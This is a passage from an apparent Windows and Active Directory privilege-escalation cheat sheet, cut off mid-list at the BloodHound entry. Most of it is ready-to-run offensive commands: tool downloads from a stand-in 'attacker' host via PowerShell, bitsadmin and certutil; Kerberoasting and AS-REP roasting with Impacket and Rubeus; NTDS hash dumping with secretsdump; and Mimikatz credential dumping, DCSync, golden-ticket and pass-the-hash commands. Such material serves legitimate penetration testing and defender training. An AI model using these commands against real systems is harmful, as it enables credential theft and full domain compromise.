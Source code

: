 ```
SharpUp.exe > privesc.txt

```

This lists privileges, weak permissions, etc.

- **Seatbelt**: Host-survey tool by GhostPack. Run `Seatbelt.exe -group=All` (or `group=user` if not admin). It outputs info on token privileges, UAC, startup folders, Services, RDP, NTLM policy, etc. Example output lines might show TokenPrivileges and UAC status.
- **System Info/Enumeration Commands (Manual)**:

```
whoami /priv                    # check token privileges
systeminfo                      # OS version, patch level
net user                        # local users
net localgroup administrators  # local admin group members
sc qc <service>                 # check service binary path
wmic service list brief /format:list  # list services
Get-ChildItem -Recurse -Force C:\\  # find world-writable dirs
reg query HKLM\\Security /s      # find registry ACLs
gpresult /h gpreport.html       # group policy analysis

```

- **Download Tools**: Use built-in means if you have limited tools:
• **PowerShell**: `powershell -Command "(New-Object System.Net.WebClient).DownloadFile('<http://attacker/tool.exe','tool.exe>')"` or `Invoke-WebRequest`.
• **BitsAdmin**: `bitsadmin /transfer myjob /download /priority normal <http://attacker/file.exe> C:\\Tools\\file.exe`.
• **CertUtil**: `certutil -urlcache -f <http://attacker/tool.exe> tool.exe`.
• **Git (if available)**: `git clone <https://github.com/Whonix/usertools`> for scripts, etc.
- **Impacket & Rubeus (Domain tools)**:
• `GetUserSPNs.py domain.com/user:pass -request` (Impacket) to harvest Kerberos tickets.
• `GetNPUsers.py domain.com/user -no-pass` to get AS-REP hashes (needs known account).
• `secretsdump.py domain.com/administrator:pass@dc_ip` to dump NTDS hashes or DCSync.
• **Rubeus.exe** (compiled C#) for Kerberos:
◦ `Rubeus.exe asreproast /user:<noPreauthUser> /rc4:<NTLM>`
◦ `Rubeus.exe kerberoast /domain:corp.local /outfile:hash.txt`
◦ `Rubeus.exe dump /service:ldap` (LDIF dump) etc.
- **Mimikatz**: Run as SYSTEM (`sekurlsa::logonpasswords`) to dump credentials. Use `sekurlsa::pth` and `kerberos::golden`, `lsadump::dcsync` for AD. Example:

```
privilege::debug
lsadump::dcsync /domain:corp.local /user:administrator
kerberos::golden /domain:corp.local /sid:S-1-5-21-... /krbtgt:<hash> /user:Administrator /rc4
kerberos::ptt /ticket:Administrator.kirbi
sekurlsa::pth /user:krbtgt@corp.local /ntlm:<hash>

```

- **BloodHound/SharpHound**: Collect AD data with SharpHound.exe (Athena queries or ACL scan), then analyze relationships. Example:
